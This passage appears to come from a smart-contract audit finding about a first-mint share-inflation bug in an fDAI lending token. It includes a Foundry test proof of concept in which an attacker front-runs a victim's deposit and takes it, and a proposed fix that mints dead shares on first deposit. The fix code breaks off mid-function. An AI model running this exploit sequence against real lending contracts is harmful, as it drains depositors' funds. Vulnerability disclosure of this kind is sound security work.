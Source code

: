 `Total loss (in $) = $10,000,000`

### [](#proof-of-concept-2)Proof of Concept

New test case was added to `forge-tests/lending/fToken/fDAI.t.sol`

    function test_bug_firstMintIssue() public {
        address attacker = alice;
    
        seedUserDAI(attacker, 2_000_000e18);
        seedUserDAI(bob, 1_000_000e18);
        assertEq(fDAI.exchangeRateStored(), 2e26);
        assertEq(fDAI.totalSupply(), 0);
        assertEq(fDAI.balanceOf(attacker), 0);
    
        vm.prank(attacker);
        DAI.approve(address(fDAI), type(uint256).max);
        vm.prank(attacker);
        fDAI.mint(2e8);
        assertEq(fDAI.balanceOf(attacker), 1);
        assertEq(fDAI.totalSupply(), 1);
    
        vm.prank(bob);
        DAI.approve(address(fDAI), type(uint256).max);
    
        // Front-running
        vm.prank(attacker);
        DAI.transfer(address(fDAI), 1_000_000e18);
        assertEq(fDAI.getCash(), 1_000_000e18 + 2e8);
    
        vm.prank(bob);
        fDAI.mint(1_000_000e18);
        assertEq(fDAI.balanceOf(bob), 0);
        assertEq(fDAI.totalSupply(), 1);
    
        vm.prank(attacker);
        fDAI.redeem(1);
        assertEq(DAI.balanceOf(attacker), 3_000_000e18);
        assertEq(fDAI.totalSupply(), 0);
    }

### [](#the-fix)The Fix

The fix to prevent this issue would be to enforce a minimum deposit that cannot be withdrawn. This can be done by minting a small amount of CToken units to `0x00` address on the first deposit.

    function mintFresh(address minter, uint mintAmount) internal {
        // ...
        Exp memory exchangeRate = Exp({mantissa: exchangeRateStoredInternal()});
    
        uint actualMintAmount = doTransferIn(minter, mintAmount);
    
        uint mintTokens = div_(actualMintAmount, exchangeRate);
    
        /// THE FIX
        if (totalSupply == 0) {
            totalSupply = 1000;
            accountTokens[address(0)] = 1000;
            mintTokens -= 1000;
        }
    
